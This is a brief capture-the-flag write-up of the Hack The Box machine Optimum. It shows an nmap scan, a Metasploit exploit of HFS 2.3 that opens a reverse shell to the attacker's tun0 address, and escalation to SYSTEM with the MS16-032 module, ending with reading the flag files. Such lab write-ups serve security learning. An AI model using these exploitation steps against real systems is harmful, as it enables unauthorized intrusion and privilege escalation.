





# Hack The Box : Optimum
## Difficulty : Easy
## OS : Windows

## Enumeration:

I'll start with a simple port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.6.228
```




I'll take a look at port 80.



## Foothold:

Searching for CVEs on HFS 2.3 I find this "https://www.exploit-db.com/exploits/39161".
I also found it in metasploit so that's how I'm going to use it.

```bash
sudo msfconsole -q
set LHOST tun0
set LPORT 6666
set RHOSTS 10.129.6.228
run
```



We got a shell. Now let's get the user flag.

```bash
ls
cat user.txt
```
## We got the user flag!

## Privilege Escalation

Checking the OS version we can see Windows Server 2012 R2 (6.3 Build 9600) is used. This version is vulnerable to MS16-032.

```bash
sysinfo
```



I'll use this exploit to get a SYSTEM shell.

```bash
[Ctrl+z]
search MS16-032
use 0
set LHOST tun0
set SESSION 1
run
```



It worked. Now Let's get the root flag.

```bash
cd /
cd Users\\
cd Administrator\\
cd Desktop\\
cat root.txt
```

## We got the root flag!